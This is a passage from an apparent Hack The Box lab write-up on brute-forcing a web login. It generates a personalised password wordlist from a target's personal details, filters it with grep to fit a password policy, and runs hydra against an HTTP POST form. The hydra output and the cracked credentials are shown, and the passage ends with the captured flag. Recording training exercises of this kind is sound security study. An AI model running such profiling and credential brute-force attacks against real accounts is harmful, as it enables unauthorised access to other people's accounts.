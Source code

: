 ```
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name: Spot
> Company name: AHI


> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: hacker,blue
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 46790 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```

Due to the policies of AHI, we need to filter our wordlist in the following way:

```
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```


Nice, once we got everything set, let's launch the attack using hydra:

```
hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials" -t 60
```

We get this output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:55:43
[DATA] max 60 tasks per 1 server, overall 60 tasks, 111286 login tries (l:14/p:7949), ~1855 tries per task
[DATA] attacking http-post-form://94.237.56.165:46400/:username=^USER^&password=^PASS^:Invalid credentials
[46400][http-post-form] host: 94.237.56.165   login: jane   password: 3n4J!!
[STATUS] attack finished for 94.237.56.165 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Got credentials:

```ad-note

`jane`:`3n4J!!`
```

Let's log in:

![](cybersecurity/images/Pasted%2520image%252020250213155724.png)

Got the flag:

```
HTB{W3b_L0gin_Brut3F0rc3_Cu5t0m}
```

